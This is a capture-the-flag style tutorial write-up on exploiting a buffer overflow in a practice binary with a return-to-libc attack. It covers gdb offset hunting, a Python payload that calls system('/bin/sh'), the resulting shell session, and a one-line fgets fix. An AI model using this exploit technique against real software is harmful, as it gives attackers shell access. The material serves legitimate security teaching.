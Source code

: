 Before we look at the binary's code, we should see if the binary has any binary hardening mitigations. These can make it significantly harder to pwn the binary. We can do this using checksec from pwntools.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ pwn checksec b6
[*] '/Hackery/escape/buf_ovf/b6/b6'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

As you can see there, it is al 32-bit (i386) binary with NX enabled. NX stands for non-executable stack which means that anywhere that a user can write to cannot be executed as code. This means that we can no longer push shellcode
onto the stack, and then execute it. So let's look at the code...

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void nothing()
{
	char* buf0[50];
	fgets(buf0, 300, stdin);
}

int main()
{
	printf("Even if you do hack this elf, what are you going to do?. You should really get back to research.\n");
	nothing();
	_exit(1);
}

void ignore_this()
{
	char shield[500];
	strcpy(shield, "Block");
	system("echo hi");
	
}
```

So looking at the code, we see a couple of things. The first is that this time our buffer overflow is limited to just 300 characters because of the use of fgets(). We see in the ignore_this() function that there is a call to system,
however all that ill do is just echo "hi". We also see that we have no real way to change that particular implementation to give us a shell. However, the fact that it is in a method means that the system is established as a function in the binary's executable memory
with a hard coded address. This address can be called via a return to libc attack ,which we pass the argument "/bin/sh" to give us a shell (reason why we give it "/bon/sh" instead of bash is sh works better with input and output with our exploits).
The first thing we will need is the buffer between our input, and the eip register.

```
gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x080484ab <+0>:	push   ebp
   0x080484ac <+1>:	mov    ebp,esp
   0x080484ae <+3>:	sub    esp,0xd8
   0x080484b4 <+9>:	mov    eax,ds:0x80498a0
   0x080484b9 <+14>:	sub    esp,0x4
   0x080484bc <+17>:	push   eax
   0x080484bd <+18>:	push   0x12c
   0x080484c2 <+23>:	lea    eax,[ebp-0xd0]
   0x080484c8 <+29>:	push   eax
   0x080484c9 <+30>:	call   0x8048360 <fgets@plt>
   0x080484ce <+35>:	add    esp,0x10
   0x080484d1 <+38>:	nop
   0x080484d2 <+39>:	leave  
   0x080484d3 <+40>:	ret    
End of assembler dump.
gdb-peda$ b *nothing+35
Breakpoint 1 at 0x80484ce
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b6/b6 
Even if you do hack this elf, what are you going to do?. You should really get back to research.
75395128
```

One wall of text later...

```
Breakpoint 1, 0x080484ce in nothing ()
gdb-peda$ x/s $ebp-0xd0
0xffffcf68:	"75395128\n"
gdb-peda$ info frame
Stack level 0, frame at 0xffffd040:
 eip = 0x80484ce in nothing; saved eip = 0x80484fa
 called by frame at 0xffffd060
 Arglist at 0xffffd038, args: 
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebp at 0xffffd038, eip at 0xffffd03c
```

And onto the quest for the holy grail

```
>>> 0xffffd03c - 0xffffcf68
212
```

So we the offset between the start of our input and the eip register is 212. Now to find the address of the system function. Now we can do this using gdb-pead by typing "p system", howver gdb-peda sometimes changes that address for the version it runs. So it is best just to use objdump to view the address that is hardcoded into the binary.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ objdump -D b6 | grep system
08048380 <system@plt>:
 8048527:	e8 54 fe ff ff       	call   8048380 <system@plt>
```

So we have the address of the system function 0x08048380. Now something else we can do, since when the function returns it will just run the system function the function won't return again unless we make it. This means that after the system function, the program will just execute whatever is after the address of the system function untill the program either exits, encounters a segmentation fault, or we make it return.
So we could after the system call to /bin/sh is done, make the program just exit because the _exit function is also called. There are two benifets to doing this, first the program won't seg fault so it's less noisey. Secondly having the exta 4 byte string does help with trying to find the address of where "/bin/sh" is stored.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ objdump -D b6 | grep exit
08048340 <_exit@plt-0x10>:
08048350 <_exit@plt>:
 80484ff:	e8 4c fe ff ff       	call   8048350 <_exit@plt>
```

So our payload should look something like this.

```
payload = offset + system_address + exit_address + address_of_string + "/bin/sh"
```

First off, the reason why the argument for system "/bin/sh" is at the end is because stack grows to lower addresses, however our overflow is going in the opposite direction towards higher addresses. Because of that in order to properley format the argument we have to put it at the end in order to account for the fact our overflow is going the opposite directio.  Now at the moment the only piece of the payload we don't have is the address of the string "/bin/sh". 
 We can use gdb to find an address similar to where it is stored, then just move up and down in 16 decimal increemnts untill we find the right address like what we've been doing. If you want, you can 
 mess around with gdb-peda's enviornemtal variables because those do interfere with the address. To find the relative address, we will have to put in a fake 4 bute hex string in place of the actual address, because that hex string does interfere with where "/bin/sh" is stored.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ python -c 'print "0"*212 + "\x80\x83\x04\x08" + "\x50\x83\x04\x08" + "\x68\xd0\xff\xff" +  "/bin/sh"' > test
```

Now picking up from where we left off in gdb (with the same breakpoint)...

```
gdb-peda$ r < test
```

You know what goes here

```
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
 [heap] : 0x804a4f0 ("/bin/sh\n")
   libc : 0xf7f5d82b ("/bin/sh")
[stack] : 0xffffd048 ("/bin/sh\n")
```

So we have the relative address of /bin/sh which is 0xffffd048. Now To find the actual address. Here are the addresses I tried.

```
0xffffd048
0xffffd058
0xffffd068
```

Then we found the correct address, 0xffffd068. So our final exploit looks like this.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ python -c 'print "0"*212 + "\x80\x83\x04\x08" + "\x50\x83\x04\x08" + "\x68\xd0\xff\xff" +  "/bin/sh"' > pwn
```

Now to actually test the exploit. Now the reason why we need the second cat, is because if we just have one cat then the exploit will run and give us a shell but we wouldn't be able to actually interface with the shell. The second cat gives us io (input and output) with the binary.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ (cat pwn; cat) | ./b6
If you do not get back to your research now, we will have to implement corrective solutions.
ls
b6  b6.c  exploit.py  out  peda-session-b6.txt	pwn  test
echo This Works!
This Works!
cat out
Someone has been researching security overriding methods. Level Cleared!
exit
exit
```

And just like that, we pwned the binary. Now to fix it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ cat b6_secure.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void nothing()
{
	char* buf0[50];
	fgets(buf0, sizeof(buf0), stdin);
}

int main()
{
	printf("If you do not get back to your research now, we will have to implement corrective solutions.\n");
	nothing();
	_exit(1);
}

void ignore_this()
{
	char shield[500];
	strcpy(shield, "Block");
	system("echo hi");
	
}
```

As you can see, we just had to change a single word. let's test it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6$ python -c 'print "0"*500' | ./b6_secure 
If you do not get back to your research now, we will have to implement corrective solutions.
```

Just like that, we patched the binary.
